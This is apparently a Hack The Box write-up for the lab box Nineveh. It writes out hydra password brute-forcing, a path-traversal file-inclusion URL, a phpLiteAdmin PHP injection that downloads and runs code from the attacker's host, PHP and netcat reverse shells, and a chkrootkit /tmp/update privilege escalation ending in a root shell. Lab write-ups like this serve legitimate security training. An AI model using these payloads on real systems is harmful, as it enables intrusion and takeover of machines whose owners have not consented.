 ```yaml
---
layout: post
title: "HTB-Nineveh"
categories: HTB-Walkthrough
---
```


![nineveh](/assets/img/nineveh.png)


Nineveh is an interesting box from HTB, and very much an OSCP-like box.

Nmap first...

`nmap -sV -Pn --min-rate 10000 -sC |tee -a nin.txt`

```

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1

```


It seems to be good practice to add found domain names to our /etc/hosts file; it can often reveal
pages that, without it, do not appear. So before we start enumerating the two web ports...

`nano /etc/hosts` , type in the ip address...then press tab, and enter the domain name...like this:

```

10.10.10.43	nineveh.htb

```

You can add more domain names if you find them, to the same line; just have a space between them.

First we'll try port 80...

It looks like we'll need to brute-force directories to move forwards...

```

gobuster dir -u http://10.10.10.43/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php,.txt,.sh

```

gobuster finds `/department` which is a web login page, and in the source we find two possible usernames: `admin` and `amrois`.

We can use a hydra dictionary attack with these to get valid creds.

make user.txt containing the found names...
trying a few of the usual suspects manually, I work out that the page reveals valid/invalid usernames.
admin is valid
amrois is invalid

so I wont be needing user.txt after all...
I've chosen to use the rockyou.txt password file, 



```

hydra 10.10.10.43 -l admin -P /root/wordlists/rockyou.txt http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -V


```

I love it when it works...what a tool!

```

[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-08-20 00:22:07

```

After logging in we find that this too is under construction, but there is a link to notes.txt

```

Have you fixed the login page yet! hardcoded username and password is really bad idea!

check your serect folder to get in! figure it out! this is your challenge

Improve the db interface.
~amrois


```

Directory Traversal, and LFI is possible with this page, we can easily read /etc/passwd....

`http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../etc/passwd`

So now we just need to find a way to put a file onto the server!


So we need to find a secret folder? which may relate to a database interface?

Trying /secret fails, but /db comes up trumps with a phpadminlite 1.9 login page.

We just need a password for this, hydra again is the best idea.

We can use 'whatever' as username ...hydra knows this is a dummy id.

```

hydra 10.10.10.43 -l whatever -P /usr/share/wordlists/rockyou.txt https-post-form "/db/:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password."

```
Yay!!!

```

[443][http-post-form] host: 10.10.10.43   login: whatever   password: password123

```

Should have probably tried some manually first, since that is one everyone tries...no matter!

`searchsploit phpliteadmin 1.9`

```

-------------------------------------------------- ----------------------------------------
 Exploit Title                                    |  Path
                                                  | (/usr/share/exploitdb/)
-------------------------------------------------- ----------------------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection    | exploits/php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities     | exploits/php/webapps/39714.txt
-------------------------------------------------- ----------------------------------------
Shellcodes: No Result

```

Checking out these files we find a method to use.


create boo.php database
create table : newtable  1 field
create field : somefiled  TEXT 
default value: <?php system("wget http://10.10.14.19/evil.txt -O /tmp/evil.php;php /tmp/evil.php"); ?>



make evil.txt file containing....

`<?php $sock=fsockopen("10.10.14.19",6969);exec("/bin/sh -i <&3 >&3 2>&3");?>`


start a webserver and nc listener....
`python3 -m http.server 80`


`nc -nlvp 6969`


execute the lfi with....(it takes quite some experimentation to get this from the initial lfi address..)

initial lfi indicator
`http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../etc/passwd`


~~~~~
eventual working exploit lfi...

`http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/boo.php`

###################################

<h3>Privesc to root...</h3>

There appears to be report folder in amrois home/folder  ran by root via chkrootkit
 it calls `/tmp/update`


research chrootkit local priv esc.....

all we have to do (because it checks for updates..)
...is exploit the fact it looks in /tmp folder for 'update'


... so we make file `/tmp/update` containing nc reverse shell (old nc)

A favourite trick of writing files on targets,that I've picked up, is using cat. 
It's handy when text editors are unavailable or problematic to use...but I've come to use it frequently; 
initially because I wanted to remember it, but I continue to do so because I think its a neat trick.

```

cat >update<<_EOF
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 1337 >/tmp/f
_EOF

```

`chmod +x update` to make it executable.

Send a copy to /tmp `cp update /tmp/`

...set listener to 1337

######################

```

root@kali:~/HTB/retired/nineveh# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.43] 44776
/bin/sh: 0: can't access tty; job control turned off
whoami
root                                                                                                               
id                                                                                                               
uid=0(root) gid=0(root) groups=0(root)                                                                             
cat /root/root.txt                                                                                               
8axxxxxxxxxxxxxxxxxxxxxxxxxxxx3a                                                                                   
ls /home                                                                                                         
amrois                                                                                                             
cat /home/amrois/user.txt                                                                                        
82xxxxxxxxxxxxxxxxxxxxxxxxxxxxc8      

```
:)






